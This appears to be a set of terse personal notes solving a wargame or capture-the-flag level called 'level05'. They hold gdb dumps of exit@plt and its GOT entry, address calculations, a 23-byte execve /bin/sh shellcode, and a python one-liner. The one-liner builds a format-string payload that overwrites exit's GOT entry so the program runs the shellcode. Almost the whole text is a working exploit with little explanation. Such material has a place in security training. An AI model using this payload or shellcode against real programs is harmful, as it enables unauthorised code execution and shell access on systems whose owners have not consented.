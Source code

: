 

exit(GOT) 	=> 0x80497e0

buffer => 0xffffd6a8 + 8 
buffershellcode => 0xffffd6b0



system 1 => ffff =>  65535 - 54960 => 10575
system 2 => d6b0 =>  54960 - 8 - 23 => 54929

disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x/x *0x80497e0
0x8048376 <exit@plt+6>: 0x00001868
(gdb) x/x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376


shellcode 23 =>  \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '%54929c' + '%10\$hn' + '%10575c' + '%11\$hn'") | ./level05
